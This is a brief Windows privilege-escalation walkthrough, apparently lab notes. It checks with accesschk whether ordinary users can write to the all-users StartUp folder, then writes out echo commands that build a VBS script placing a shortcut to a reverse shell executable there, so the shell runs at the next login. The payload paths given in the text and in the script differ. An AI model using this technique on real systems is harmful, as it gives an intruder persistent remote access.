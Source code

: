 Using accesschk.exe, note if the `BUILTIN\Users` group can write files to the StartUp directory:

`accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`

Output:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone

```

Create the following vbs script `CreateShortcut.vbs` after you set the path `oLink.TargetPath = "C:\PrivEsc\reverse.exe"` to the path of the reverse shell on the target.

Creating the script

```
echo Set oWS = WScript.CreateObject("WScript.Shell") > CreateShortcut.vbs
echo sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk" >> CreateShortcut.vbs
echo Set oLink = oWS.CreateShortcut(sLinkFile) >> CreateShortcut.vbs
echo oLink.TargetPath = "C:\Users\user\reverse.exe" >> CreateShortcut.vbs
echo oLink.Save >> CreateShortcut.vbs
```

`cscript CreateShortcut.vbs`

When a user logs in, the reverse shell will be triggered.